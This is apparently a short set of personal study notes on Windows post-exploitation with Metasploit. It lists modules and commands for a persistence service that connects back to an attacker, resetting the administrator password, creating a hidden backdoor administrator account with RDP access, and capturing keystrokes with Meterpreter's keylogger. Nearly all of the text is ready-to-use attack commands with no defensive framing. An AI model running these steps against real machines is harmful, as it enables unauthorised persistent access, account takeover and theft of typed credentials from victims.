


# Useful Metasploit modules

- exploit/windows/local/persistence_service
	- creates service that continuously connects back to attacker.
	- run multi/handler with required payload parameters ^

	
		
	
- post/windows/manage/enable_rdp
	- net user administrator hacker_123321 : change admin password
	- use xfreerdp to connect to victim from attacker
	
	
		

# Backdoor User Account

- meterpreter: run getgui -e -u muku -p hacker_123321 
	- enables rdp service
	- creates new user with the provided parameters
	- hides user from windows login screen
	- adds user to Remote Desktop Users and Administrators group.
	- on attacker machine - xfreerdp /u:muku /p:hacker_123321 /v:<target_ip>

# Keylogger

- in meterpreter, migrate to explorer.exe process
- keyscan_start : start keylogger
- keyscan_dump : print captured strokes